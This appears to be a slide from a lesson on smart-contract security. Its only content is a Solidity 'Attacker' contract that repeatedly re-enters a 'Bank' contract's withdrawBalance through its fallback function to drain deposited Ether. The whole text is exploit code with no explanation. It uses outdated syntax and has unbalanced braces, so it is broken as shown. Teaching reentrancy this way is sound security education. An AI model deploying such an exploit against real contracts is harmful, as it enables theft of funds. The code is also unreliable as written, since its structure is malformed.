

contract Attacker {
   uint numIterations;
   Bank bank;
   function Attacker(address _bankAddress) {     // constructor
       	bank = Bank(_bankAddress);
       	numIterations = 10;
       	if (bank.value(75).addToBalance() == false)     {   throw;   }      // Deposit 75 Wei
       	if (bank.withdrawBalance() == false)     { throw; }                      // Trigger attack
   }   }

   function () {	// the fallback function
       if (numIterations > 0) {
           	numIterations --;   // make sure Tx does not run out of gas
           	if (bank.withdrawBalance() == false) {  throw;  }
}  }  }  }